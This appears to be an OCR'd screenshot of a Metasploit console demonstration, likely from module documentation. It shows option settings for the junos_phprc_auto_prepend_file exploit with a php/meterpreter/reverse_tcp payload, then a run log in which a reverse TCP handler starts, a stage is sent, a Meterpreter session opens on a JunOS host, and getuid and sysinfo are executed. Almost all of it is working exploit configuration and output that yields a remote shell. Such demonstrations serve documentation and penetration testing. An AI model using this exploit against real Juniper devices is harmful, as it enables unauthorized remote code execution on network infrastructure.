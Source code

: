 ```


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.140.78   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(freebsd/http/junos_phprc_auto_prepend_file) > run

[*] Started reverse TCP handler on 192.168.140.78:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Environment variable manipulation succeeded indicating this target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.140.91
[*] Meterpreter session 1 opened (192.168.140.78:4444 -> 192.168.140.91:50791) at 2023-09-28 14:13:50 -0400

meterpreter > getuid
Server username: nobody
meterpreter > sysinfo
Computer    : JUNOS
OS          : FreeBSD JUNOS JNPR-11.0-20200608.0016468_buil FreeBSD JNPR-11.0-20200608.0016468_builder_stable_11 #0 r356482+0016468ed6c(stable/11): Sun Jun  7 23:59:18 PDT 2020     builder@feyrith.juniper.net:/volume/build/junos/occam/llvm-5.0/sandbox-20200605/freebsd/
Meterpreter : php/freebsd
meterpreter > exit
```
